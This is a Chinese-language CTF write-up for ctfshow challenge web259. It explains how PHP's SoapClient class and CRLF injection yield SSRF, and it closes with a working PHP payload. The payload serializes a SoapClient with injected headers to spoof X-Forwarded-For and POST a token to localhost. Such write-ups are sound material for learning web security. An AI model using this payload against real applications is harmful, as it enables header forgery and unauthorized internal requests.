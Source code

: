 ![image-20210201103009241](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210201103009241.png)

## web259~SoapClient类,CRLF

flag.php :

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

这个题利用的是php原生类SoapClient
 该类的构造函数如下：

```php
public SoapClient :: SoapClient （mixed $wsdl [，array $options ]）
```

我们需要利用`ssrf` 访问到 `flag.php` ,并让其满足条件把flag 读取到`flag.txt` 中。

* 方法重载 `__call` 在对象中调用一个不可访问方法时调用

`SoapClient`类，调用一个不存在的函数，会去调用`__call`方法。

还有就是 `CRLF`

* CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting，简称HRS。

payload:

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```
